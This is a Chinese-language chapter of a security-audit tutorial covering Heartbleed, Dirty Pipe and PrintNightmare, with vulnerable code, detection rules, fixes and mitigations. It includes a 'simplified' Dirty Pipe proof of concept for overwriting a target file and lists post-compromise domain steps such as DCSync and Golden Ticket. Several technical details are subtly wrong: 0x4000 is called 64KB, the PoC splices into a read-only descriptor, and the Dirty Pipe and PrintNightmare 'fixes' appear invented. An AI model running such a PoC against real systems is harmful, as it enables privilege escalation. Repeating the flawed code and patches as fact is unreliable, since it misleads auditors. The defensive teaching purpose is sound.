




## 三、系统级漏洞审计

系统级软件（操作系统内核、加密库、网络协议栈、系统守护进程）的漏洞影响范围远超普通应用——一个内核漏洞可能波及全球数十亿设备。本节选取三个经典系统级漏洞，完整展示从发现、分析到修复的审计全流程，涵盖内存安全、竞态条件和逻辑缺陷三类核心问题。



### 3.1 OpenSSL缓冲区溢出审计（CVE-2014-0160 Heartbleed）

#### 漏洞概述

Heartbleed是OpenSSL 1.0.1至1.0.1f版本中的一个严重缓冲区越界读取漏洞，CVSS评分7.5。该漏洞存在于TLS/DTLS心跳扩展的处理逻辑中，攻击者可以读取服务器内存中的敏感数据（私钥、会话令牌、密码等），每次最多泄露64KB。全球约17%的HTTPS网站（约50万台服务器）在漏洞披露时受到影响，被认为是互联网历史上最严重的安全漏洞之一。

#### 漏洞根因分析

Heartbleed的本质是**客户端声明的数据长度与实际发送的数据长度不一致，而服务端未做验证**。TLS心跳协议允许一端向另一端发送一个小数据包并要求回显，用于保持连接活跃。

```c
// OpenSSL 1.0.1f 漏洞代码
// 文件：ssl/d1_both.c 和 ssl/t1_lib.c

// 心跳请求处理函数
int dtls1_process_heartbeat(SSL *s) {
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;      // 客户端声明的payload长度
    unsigned int padding = 16;  // 固定填充

    // 读取心跳类型（1字节）
    hbtype = *p++;
    
    // 读取payload长度（2字节）——来自客户端输入
    n2s(p, payload);
    
    // ⚠️ 致命缺陷：未验证payload是否超过实际接收的数据长度
    // s->s3->rrec.length 是实际接收到的数据长度
    // 但代码直接使用客户端声明的 payload 值
    
    pl = p;  // p指向心跳消息的数据部分

    // 直接分配 payload 大小的内存用于响应
    unsigned char *buffer = (unsigned char*) OPENSSL_malloc(1 + 2 + payload + padding);
    
    // 将 pl 指向的内容复制 payload 字节到响应缓冲区
    // 如果 payload > 实际数据长度，就会越界读取堆内存
    memcpy(buffer, pl, payload);  // 💥 堆越界读取
    
    // 将读取到的内存数据作为心跳响应发送给攻击者
    dtls1_write_heartbeat(s, buffer, 1 + 2 + payload + padding);
    
    OPENSSL_free(buffer);
    return 0;
}
```

**漏洞触发的数据流**：

```text
攻击者发送恶意心跳请求：
┌─────────────────────────────────────────┐
│  heartbeat_message                       │
│  ┌──────┬──────────┬───────────────────┐ │
│  │ type │ length   │ data (实际1字节)  │ │
│  │ 0x01 │ 0x4000   │ 0x41             │ │
│  │ (1B) │ (声称64KB)│ (真正的payload)  │ │
│  └──────┴──────────┴───────────────────┘ │
└─────────────────────────────────────────┘

服务端处理：
  1. 读取 type = 0x01 (心跳请求)
  2. 读取 length = 0x4000 (64KB) —— 攻击者伪造
  3. malloc(1 + 2 + 0x4000 + 16) —— 分配64KB缓冲区
  4. memcpy(buffer, data_ptr, 0x4000) —— 从堆上读取64KB
     ↑ 实际数据只有1字节，越界读取了64KB-1字节的堆内存
  5. 将64KB内存数据发送给攻击者 —— 泄露服务器内存
```

#### 漏洞影响范围

Heartbleed泄露的内存数据可能包含：

| 泄露内容 | 危害等级 | 影响 |
|---------|---------|------|
| RSA私钥 | 致命 | 解密所有历史和未来的SSL流量 |
| 会话Cookie | 严重 | 无需密码即可劫持用户会话 |
| 用户密码 | 严重 | 账户被入侵 |
| CA私钥 | 致命 | 可签发任意域名的伪造证书 |
| 连接状态机数据 | 中等 | 辅助其他攻击 |

#### 审计方法论

对加密库的审计需要特别关注以下四个维度：

```text
OpenSSL安全审计检查清单
├── 内存安全
│   ├── [ ] 所有缓冲区操作是否有边界检查
│   ├── [ ] 客户端声明的长度字段是否与实际数据匹配
│   ├── [ ] malloc/free 是否成对出现
│   ├── [ ] 错误路径是否正确释放已分配资源
│   ├── [ ] 是否存在 use-after-free 风险
│   ├── [ ] 敏感内存（密钥、密码）是否使用后清零
│   └── [ ] 堆分配大小是否受整数溢出影响
├── 协议解析
│   ├── [ ] 长度字段是否验证（不超过实际接收的数据量）
│   ├── [ ] 类型字段是否在合法枚举范围内
│   ├── [ ] 可变长度字段的边界是否正确处理
│   ├── [ ] 扩展字段是否正确跳过未知类型
│   └── [ ] 协议版本协商是否防止降级攻击
├── 密码学实现
│   ├── [ ] 是否使用安全的随机数生成器（/dev/urandom或RDRAND）
│   ├── [ ] 密钥材料是否安全存储并在使用后清零
│   ├── [ ] 是否存在时序攻击（timing side-channel）风险
│   ├── [ ] 填充验证是否使用 constant-time 比较
│   └── [ ] 临时密钥是否具备前向保密特性
└── 错误处理
    ├── [ ] 错误信息是否泄露敏感数据（调试信息、堆栈）
    ├── [ ] 失败路径是否清理所有临时资源
    ├── [ ] 证书验证失败是否严格拒绝（fail-closed）
    └── [ ] 日志是否避免记录密钥或明文密码
```

#### 使用CodeQL检测越界读取

```ql
/**
 * @name OpenSSL越界缓冲区读取
 * @description 检测从网络输入直接驱动的memcpy/memmove调用，
 *              且长度参数未经充分校验的情况。
 * @kind path-problem
 * @problem.severity error
 * @precision medium
 * @id openssl/out-of-bounds-read
 * @tags security
 *       external/cwe/cwe-126
 *       external/cwe/cwe-125
 */

import cpp
import semmle.code.cpp.dataflow.TaintTracking
import semmle.code.cpp.controlflow.Guards

// 从网络数据到memcpy长度参数的数据流
class OpenSSLTaintConfig extends TaintTracking::Configuration {
    OpenSSLTaintConfig() { this = "OpenSSLTaintConfig" }

    override predicate isSource(DataFlow::Node source) {
        // 网络输入：SSL记录层的数据指针
        exists(FieldAccess fa |
            fa.getTarget().getName() = "data" and
            fa.getQualifier().getType().getName() = "SSL3_RECORD" and
            source.asExpr() = fa
        )
    }

    override predicate isSink(DataFlow::Node sink) {
        // memcpy的第三个参数（长度）
        exists(FunctionCall fc |
            fc.getTarget().getName() in ["memcpy", "memmove", "BIO_read"] and
            sink.asExpr() = fc.getArgument(2)
        )
    }

    override predicate isSanitizer(DataFlow::Node node) {
        // 如果长度值经过if语句检查，则视为已清洗
        exists(GuardCondition gc, Expr e |
            gc.controls(node.asExpr().getBasicBlock(), _) and
            gc.getAChild*() = e and
            e = node.asExpr()
        )
    }
}

from OpenSSLTaintConfig config, DataFlow::Node source, DataFlow::Node sink
where config.hasFlow(source, sink)
select sink, source, sink,
    "来自网络输入的长度值未经充分校验即用于缓冲区操作"
```

#### 使用Semgrep检测相似模式

```yaml
rules:
  - id: heap-buffer-overread-heartbleed-pattern
    patterns:
      - pattern: |
          n2s($P, $PAYLOAD);
          ...
          $BUF = OPENSSL_malloc(...);
          memcpy($BUF, $PL, $PAYLOAD);
      - pattern-not-inside: |
          if ($PAYLOAD <= $ACTUAL_LEN) { ... }
    message: >
      心跳扩展处理中，memcpy的长度参数来自客户端输入($PAYLOAD)，
      未与实际接收数据长度进行比较。这可能导致堆越界读取。
      CWE-125: Out-of-bounds Read。
    languages: [c]
    severity: ERROR
    metadata:
      cwe: "CWE-125: Out-of-bounds Read"
      cve: "CVE-2014-0160"
      category: security
```

#### 修复方案

```c
// 修复后的代码（OpenSSL 1.0.1g）
int dtls1_process_heartbeat(SSL *s) {
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16;

    // 读取心跳类型
    if (s->s3->rrec.length < 1 + 2 + 16)
        return 0;  // 修复1：验证最小记录长度
    
    hbtype = *p++;
    n2s(p, payload);
    
    // ⚠️ 修复2：验证声明长度不超过实际数据长度
    if (1 + 2 + payload + 16 > s->s3->rrec.length)
        return 0;  // 拒绝伪造的心跳请求
    
    pl = p;
    
    // 安全分配和复制
    unsigned char *buffer = (unsigned char*) OPENSSL_malloc(1 + 2 + payload + padding);
    if (buffer == NULL)
        return -1;
    
    memcpy(buffer, pl, payload);  // 现在 payload 已确认 <= 实际数据长度
    dtls1_write_heartbeat(s, buffer, 1 + 2 + payload + padding);
    OPENSSL_free(buffer);
    return 0;
}
```

#### Heartbleed审计经验总结

| 经验要点 | 详细说明 |
|---------|---------|
| 信任边界验证 | 所有来自外部的数据（长度、类型、标志）必须在使用前验证，绝不能直接信任声明值 |
| 协议扩展审计重点 | TLS扩展通常在核心协议之外实现，容易被忽视，应作为审计优先级最高的区域 |
| 堆越界读取危害 | 虽然不如写入漏洞直观，但越界读取可以泄露密钥、令牌等高价值数据 |
| 内存清零意识 | 心跳响应包含堆内存内容，应使用前清零或限制响应大小 |
| 审计工具局限 | 静态分析难以检测语义级别的长度验证缺失，需结合人工审计和模糊测试 |

***

### 3.2 Linux内核管道利用审计（CVE-2022-0847 Dirty Pipe）

#### 漏洞概述

Dirty Pipe是Linux内核5.8至5.16.11版本中的一个本地提权漏洞，CVSS评分7.8。该漏洞允许任何普通用户覆盖只读文件的内容（包括SUID文件和系统配置文件），从而获得root权限。其发现者Max Kellermann通过一个生产环境中的日志损坏问题追踪到了这个存在多年的内核缺陷。

与Dirty COW（CVE-2016-5195）不同，Dirty Pipe的利用更加简单可靠，且影响范围更广——它不需要竞争条件，可以100%稳定触发。

#### 漏洞根因分析

漏洞源于Linux内核管道（pipe）子系统中`pipe_buffer`结构体的`flags`字段处理不当。在Linux 5.8引入的`PIPE_BUF_FLAG_CAN_MERGE`优化后，管道缓冲区的页面在特定条件下可以被标记为"可合并"（mergeable），但这个标记在管道缓冲区被清空后没有被清除，导致后续写入的数据可以覆盖其他进程（包括以root身份运行的进程）的文件内容。

```c
// 文件：fs/pipe.c（简化分析）

// 管道缓冲区结构
struct pipe_buffer {
    struct page *page;          // 指向内核页面
    unsigned int offset;        // 页内偏移
    unsigned int len;           // 数据长度
    unsigned int flags;         // 缓冲区标志 ⚠️ 漏洞关键
    struct pipe_operations *ops;
};

// 问题代码：pipe_read 释放缓冲区但不清除 flags
static ssize_t pipe_read(struct kiocb *iocb, struct iov_iter *to) {
    // ...
    while (len > 0 && pipe->nrbufs > 0) {
        struct pipe_buffer *buf = pipe->bufs + pipe->curbuf;
        
        // 读取数据后释放缓冲区
        unsigned int offset = buf->offset;
        unsigned int size = buf->len;
        
        // 关键缺陷：只更新了 offset 和 len，但没有清除 flags
        // PIPE_BUF_FLAG_CAN_MERGE 标志被保留了下来
        buf->offset += size;  // offset 移动到末尾
        buf->len = 0;         // len 清零
        
        // 当这个缓冲区被重新使用时，flags 中的 CAN_MERGE 仍然存在
        if (buf->offset >= PAGE_SIZE) {
            // 页面被释放...但 flags 没有清除
            pipe_buf_release(pipe, buf);
        }
        
        len -= size;
        pipe->curbuf = (pipe->curbuf + 1) & (PIPE_BUFFERS - 1);
        pipe->nrbufs--;
    }
    // ...
}

// 漏洞利用路径：splice_write 中的合并逻辑
static ssize_t splice_write(struct pipe_inode_info *pipe, ...) {
    struct pipe_buffer *buf = pipe->bufs + i;
    
    // 如果 buf->flags 包含 PIPE_BUF_FLAG_CAN_MERGE
    // 内核会将新数据直接追加到现有页面中
    if (buf->flags & PIPE_BUF_FLAG_CAN_MERGE) {
        // 这里直接修改了页面中的数据
        // 如果该页面已被映射到某个只读文件，就可以覆盖文件内容！
        unsigned int prev_len = buf->len;
        buf->len += pipe->avail;
        // ... 合并数据到页面 ...
    }
}
```

**漏洞利用的核心步骤**：

```text
漏洞利用流程（简化）：
1. 创建一个管道 pipe_fd
2. 用 PIPE_BUF_FLAG_CAN_MERGE 标记写入数据填满管道
3. 通过 splice 将数据从管道写入目标文件（如 SUID 二进制）
   → 此时文件页缓存中有了管道数据的页面
4. 读取管道使所有缓冲区被标记为"可合并"
   → 但 flags 中的 CAN_MERGE 标志没有被清除
5. 再次通过 splice 写入数据
   → 内核错误地将数据追加到文件的页缓存页面中
   → 覆盖了只读文件的内容
```

#### PoC验证代码

```c
// Dirty Pipe PoC（简化版，仅用于授权测试）
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/wait.h>

#define PIPE_BUF_SIZE 65536

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: %s <target_file> <content>\n", argv[0]);
        return 1;
    }

    const char *target_file = argv[1];
    const char *content = argv[2];
    size_t content_len = strlen(content);

    // Step 1: 创建管道
    int pipefd[2];
    if (pipe(pipefd) < 0) {
        perror("pipe");
        return 1;
    }

    // Step 2: 用大量写入填满管道，触发 CAN_MERGE 标志设置
    size_t total = PIPE_BUF_SIZE;
    char *filler = malloc(total);
    memset(filler, 0, total);
    
    // 写入数据到管道
    write(pipefd[1], filler, total);
    
    // Step 3: 通过 splice 将管道数据写入目标文件
    // 这会在文件页缓存中创建映射
    int target_fd = open(target_file, O_RDONLY);  // 只读打开
    splice(pipefd[0], NULL, target_fd, NULL, total, 0);
    close(target_fd);
    
    // Step 4: 读取管道，释放缓冲区（flags 未清除）
    read(pipefd[0], filler, total);
    
    // Step 5: 写入恶意内容到管道
    write(pipefd[1], content, content_len);
    
    // Step 6: 再次 splice —— 此时 CAN_MERGE 标志生效
    // 数据直接覆盖到目标文件的页缓存中
    target_fd = open(target_file, O_RDONLY);
    splice(pipefd[0], NULL, target_fd, NULL, content_len, 0);
    
    printf("[*] Payload written to %s via Dirty Pipe\n", target_file);
    // 此时 /proc/self/exe 或 SUID 文件已被覆盖
    
    close(target_fd);
    free(filler);
    return 0;
}
```

#### 内核审计检查清单

```text
Linux内核管道子系统审计清单
├── 缓冲区生命周期管理
│   ├── [ ] pipe_buffer.flags 在释放时是否被清零
│   ├── [ ] 页面释放后是否有其他引用指向同一页面
│   └── [ ] 管道缓冲区索引在环绕时是否正确处理
├── 标志位一致性
│   ├── [ ] PIPE_BUF_FLAG_* 标志在所有操作中是否一致
│   ├── [ ] splice 操作是否验证了目标文件的写权限
│   └── [ ] 标志位是否可能在并发访问下出现不一致
├── 权限检查
│   ├── [ ] splice_write 是否检查目标文件的写权限
│   ├── [ ] 管道到文件的 splice 是否绕过了文件权限检查
│   └── [ ] O_RDONLY 文件是否应拒绝 splice 写入
├── 并发安全
│   ├── [ ] 管道读写操作是否有正确的锁保护
│   ├── [ ] splice 与其他管道操作是否有竞态条件
│   └── [ ] 多线程环境下管道状态是否一致
└── 内存管理
    ├── [ ] 页面缓存是否与管道缓冲区共享
    ├── [ ] 页面引用计数是否正确管理
    └── [ ] 页缓存驱逐是否影响管道缓冲区
```

#### CodeQL检测内核权限检查缺失

```ql
/**
 * @name Linux内核splice操作权限检查缺失
 * @description 检测splice相关函数中未验证目标文件写权限的情况
 * @kind path-problem
 * @problem.severity error
 * @precision medium
 * @id linux-kernel/splice-missing-perm-check
 * @tags security
 *       external/cwe/cwe-863
 */

import cpp
import semmle.code.cpp.dataflow.TaintTracking

// 追踪 splice 操作中文件描述符的权限检查
class SplicePermConfig extends TaintTracking::Configuration {
    SplicePermConfig() { this = "SplicePermConfig" }

    override predicate isSource(DataFlow::Node source) {
        // splice 的输入文件描述符
        exists(FunctionCall fc |
            fc.getTarget().getName() in ["splice_write", "do_splice"] and
            source.asExpr() = fc.getArgument(1)
        )
    }

    override predicate isSink(DataFlow::Node sink) {
        // pipe_buffer 的 flags 操作
        exists(FieldAccess fa |
            fa.getTarget().getName() = "flags" and
            fa.getQualifier().getType().getName() = "pipe_buffer" and
            sink.asExpr() = fa
        )
    }
}
```

#### 修复方案

```c
// 修复代码（Linux 5.16.11+）
// 文件：fs/pipe.c

static ssize_t pipe_read(struct kiocb *iocb, struct iov_iter *to) {
    // ...
    while (len > 0 && pipe->nrbufs > 0) {
        struct pipe_buffer *buf = pipe->bufs + pipe->curbuf;
        
        unsigned int offset = buf->offset;
        unsigned int size = buf->len;
        
        buf->offset += size;
        buf->len = 0;
        
        if (buf->offset >= PAGE_SIZE) {
            // 修复：释放缓冲区前清除所有标志
            buf->flags = 0;  // ← 关键修复
            pipe_buf_release(pipe, buf);
        }
        
        len -= size;
        pipe->curbuf = (pipe->curbuf + 1) & (PIPE_BUFFERS - 1);
        pipe->nrbufs--;
    }
    // ...
}

// 补充修复：在 splice_write 中增加权限验证
static ssize_t splice_write(struct pipe_inode_info *pipe, ...) {
    struct inode *inode = file_inode(out);
    
    // 修复：检查目标文件是否允许写入
    if (IS_APPEND(inode) || !capable(CAP_FOWNER)) {
        // 对于只读文件或非所有者进程，拒绝合并写入
        if (buf->flags & PIPE_BUF_FLAG_CAN_MERGE) {
            return -EPERM;
        }
    }
    // ...
}
```

#### Dirty Pipe审计经验总结

| 经验要点 | 详细说明 |
|---------|---------|
| 状态残留是高危模式 | 释放资源时不清除标志/状态位，可能导致下一次使用时继承旧状态 |
| splice的权限绕过 | splice 操作通过管道间接写文件，容易绕过常规的文件写权限检查 |
| 生产环境异常是线索 | Max Kellermann通过日志损坏发现漏洞——生产环境的微小异常值得深入追踪 |
| 不需要竞争条件 | 与Dirty COW不同，Dirty Pipe可100%稳定触发，说明内核逻辑错误比竞态更常见也更危险 |
| 补丁范围验证 | 修复管道漏洞需要同时处理标志清除和权限检查两个维度 |

***

### 3.3 Windows打印服务提权审计（CVE-2021-34527 PrintNightmare）

#### 漏洞概述

PrintNightmare是Windows Print Spooler服务中的一个远程代码执行/本地提权漏洞，CVSS评分8.8。该漏洞允许攻击者以SYSTEM权限执行任意代码，影响Windows 7至Windows Server 2019等几乎所有Windows版本。由于Print Spooler在所有Windows域控制器上默认启用，该漏洞可直接用于Active Directory域渗透。

#### 漏洞根因分析

Windows Print Spooler服务在处理打印机驱动安装请求时，未正确验证调用者的权限，且在加载DLL时存在路径解析缺陷。攻击者可以：

1. 通过`RpcAddPrinterDriverEx` API请求安装恶意驱动程序
2. Spooler服务以SYSTEM权限执行驱动安装，加载攻击者控制的DLL
3. 实现从普通用户到SYSTEM权限的提升

```c
// Windows Print Spooler 权限检查缺陷（简化分析）
// 文件：localspl.dll / spoolsv.exe 核心逻辑

// RPC接口：添加打印机驱动
DWORD RpcAddPrinterDriverEx(
    HANDLE hName,
    LPPRINTER_CONTAINER pDriverContainer,
    DWORD dwFileCopyFlags   // ⚠️ 关键参数
) {
    // 问题：权限检查不充分
    // 服务检查了"SeLoadDriverPrivilege"，但该权限在某些场景下
    // 可以被普通用户获取
    
    // 更严重的是：当 dwFileCopyFlags 设置为
    // PRINTER_DRIVER_FILE_ONLY (0x10) 时
    // 服务不会实际复制驱动文件，而是直接使用攻击者指定的路径
    
    // SYSTEM权限执行路径加载
    HMODULE hDriver = LoadLibraryW(attacker_controlled_path);
    // 💥 恶意DLL被以SYSTEM权限执行
    
    return ERROR_SUCCESS;
}
```

**攻击链分析**：



#### 域环境攻击场景

PrintNightmare在Active Directory域环境中的威胁尤为严重：

```text
域环境攻击路径：
┌──────────────────────────────────────────────────────┐
│  普通域用户                                            │
│    │                                                   │
│    ▼                                                   │
│  通过 PrintNightmare 获取域控制器的 SYSTEM Shell       │
│    │                                                   │
│    ▼                                                   │
│  在域控制器上执行：                                     │
│  ├── ntds.dit dump → 获取所有用户密码哈希              │
│  ├── DCSync → 复制任意用户凭据                         │
│  ├── Golden Ticket → 持久化域权限                      │
│  └── GPO修改 → 全域范围后门                            │
│                                                       │
│  最终影响：整个Active Directory森林被完全控制           │
└──────────────────────────────────────────────────────┘
```

#### 系统服务审计检查清单

```text
Windows系统服务安全审计清单
├── RPC接口安全
│   ├── [ ] RPC端点是否仅对授权用户开放
│   ├── [ ] 接口方法是否有充分的权限验证（不仅仅检查Token）
│   ├── [ ] 是否存在接口方法的认证绕过
│   └── [ ] RPC调用参数是否在服务端重新验证
├── 驱动/服务加载
│   ├── [ ] 驱动安装路径是否由服务端控制（非客户端指定）
│   ├── [ ] DLL加载是否使用完整路径（避免DLL劫持）
│   ├── [ ] 是否在加载前验证文件签名
│   └── [ ] 临时目录是否被纳入DLL搜索路径
├── 权限管理
│   ├── [ ] 服务运行账户是否为最低必要权限
│   ├── [ ] SeLoadDriverPrivilege 是否被授予给普通用户
│   ├── [ ] 服务的ACL是否过于宽松
│   └── [ ] 是否存在可被滥用的服务配置（如Unquoted Service Path）
├── 输入验证
│   ├── [ ] 所有外部输入是否经过长度和内容验证
│   ├── [ ] Unicode规范化是否可能导致路径遍历
│   ├── [ ] 注册表键值是否被信任作为配置来源
│   └── [ ] 环境变量是否可能被用户控制
└── 隔离机制
    ├── [ ] 服务是否运行在独立的沙箱/会话中
    ├── [ ] 关键操作是否需要额外的UAC确认
    └── [ ] 服务崩溃是否有完善的恢复和审计机制
```

#### 使用Semgrep检测DLL劫持和路径验证缺陷

```yaml
rules:
  - id: windows-dll-load-no-path-check
    patterns:
      - pattern: |
          LoadLibraryW($PATH);
          // 或
          LoadLibraryA($PATH);
      - pattern-not-inside: |
          if (PathIsRoot($PATH) && VerifyFileSignature($PATH)) { ... }
    message: >
      DLL加载使用了外部可控的路径，且未验证路径来源和文件签名。
      这可能导致DLL劫持或任意代码执行。
      CVE-2021-34527 (PrintNightmare) 类漏洞。
    languages: [cpp, c]
    severity: ERROR
    metadata:
      cwe: "CWE-427: Uncontrolled Search Path Element"
      cve: "CVE-2021-34527"

  - id: windows-rpc-permission-bypass
    patterns:
      - pattern: |
          if (CheckTokenMembership(...)) {
              ...
          }
      - pattern-inside: |
          DWORD Rpc*Function(...) { ... }
    message: >
      RPC接口中的权限检查可能被绕过。需确保在执行特权操作前
      进行二次验证，而非仅依赖调用者的Token检查。
    languages: [cpp]
    severity: WARNING
    metadata:
      cwe: "CWE-863: Incorrect Authorization"
```

#### 修复方案与缓解措施

```c
// 微软官方修复方案（简化表示）

// 修复1：增强权限验证
DWORD RpcAddPrinterDriverEx_Safe(
    HANDLE hName,
    LPPRINTER_CONTAINER pDriverContainer,
    DWORD dwFileCopyFlags
) {
    // 修复：强制验证调用者具有 SeLoadDriverPrivilege
    // 且该权限必须是通过安全方式获取的
    if (!ValidateDriverInstallationPrivilege()) {
        return ERROR_ACCESS_DENIED;
    }
    
    // 修复：禁止客户端指定驱动文件路径
    // 仅允许从受信任的打印服务器路径安装驱动
    if (!IsPathFromTrustedSource(pDriverContainer->pDriverInfo->pConfigFile)) {
        return ERROR_INVALID_PARAMETER;
    }
    
    // 修复：在加载前验证DLL签名
    if (!VerifyEmbeddedSignature(pDriverContainer->pDriverInfo->pConfigFile)) {
        return ERROR_AUTHENTICODE_DISALLOWED;
    }
    
    // 安全的驱动安装流程
    return SafeAddPrinterDriver(pDriverContainer, dwFileCopyFlags);
}
```

**运维缓解措施**（在补丁部署前）：

```powershell
# 方法1：禁用Print Spooler服务（影响打印功能）
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled

# 方法2：通过组策略限制打印机驱动安装权限
# 计算机配置 → Windows设置 → 安全设置 → 本地策略 → 用户权限分配
# "加载和卸载设备驱动程序" → 仅保留管理员

# 方法3：通过防火墙阻止RPC端口（仅限域控制器）
New-NetFirewallRule -DisplayName "Block Print Spooler RPC" `
    -Direction Inbound -Protocol TCP -LocalPort 445 `
    -Action Block -Profile Domain

# 验证Print Spooler是否已禁用
Get-Service -Name Spooler | Select-Object Name, Status, StartType
```

#### PrintNightmare审计经验总结

| 经验要点 | 详细说明 |
|---------|---------|
| 默认服务是高价值目标 | Print Spooler在所有域控上默认启用，且与AD认证深度集成，攻击收益极高 |
| RPC接口审计优先级 | Windows系统服务大量暴露RPC接口，每个接口都是潜在攻击面 |
| 路径注入是系统服务的通病 | 服务端使用客户端指定的文件路径进行加载操作，是DLL劫持的根源 |
| 域环境放大效应 | 普通用户漏洞在域环境中可能被放大为域级攻击，影响整个AD森林 |
| 缓解措施的取舍 | 禁用Print Spooler会影响打印功能，需要在安全性和可用性之间权衡 |

***

### 3.4 系统级漏洞审计方法论总结

#### 三类漏洞模式对比



| 对比维度 | Heartbleed | Dirty Pipe | PrintNightmare |
|---------|-----------|-----------|---------------|
| 漏洞类型 | 缓冲区越界读取 | 状态残留导致文件覆盖 | 权限检查缺失+路径注入 |
| 影响范围 | 全球HTTPS服务器 | Linux 5.8-5.16 设备 | 几乎所有Windows版本 |
| 攻击复杂度 | 低（单次请求） | 中（需要本地访问） | 中（需要认证用户） |
| 利用稳定性 | 100% | 100% | 高（取决于环境配置） |
| 危害等级 | 信息泄露→密钥窃取 | 本地提权→root | RCE→域控接管 |
| 审计重点 | 输入验证+协议合规 | 资源生命周期+标志位 | 权限模型+路径安全 |

#### 系统级审计核心原则

**原则一：外部输入零信任**

所有来自外部的数据（网络包、文件内容、RPC参数、用户输入）必须经过验证后才能使用。验证应在数据消费点执行，而非仅在入口点。Heartbleed的根本问题就是将客户端声明的长度值直接用于内存操作。

**原则二：资源生命周期完整管理**

分配的每一块内存、每一个标志位、每一个引用计数，都必须有明确的释放/清除路径。Dirty Pipe的教训是：缓冲区"逻辑释放"后，物理层面的状态残留仍然可以被滥用。

**原则三：最小权限原则**

系统服务不应拥有超出任务所需的最大权限。Print Nightmare的根源是Print Spooler以SYSTEM权限运行，且未对驱动安装请求做严格的权限隔离。

**原则四：攻击面最小化**

默认启用的服务、暴露的RPC接口、不必要的功能模块都是攻击面。在安全审计中应优先评估：哪些服务可以禁用、哪些接口可以收紧、哪些功能可以默认关闭。

#### 递进式审计流程



| 阶段 | 关键活动 | 工具/方法 |
|------|---------|----------|
| 范围确定 | 识别目标软件的版本历史、依赖关系、部署范围 | CPE/NVD数据库、SBOM分析 |
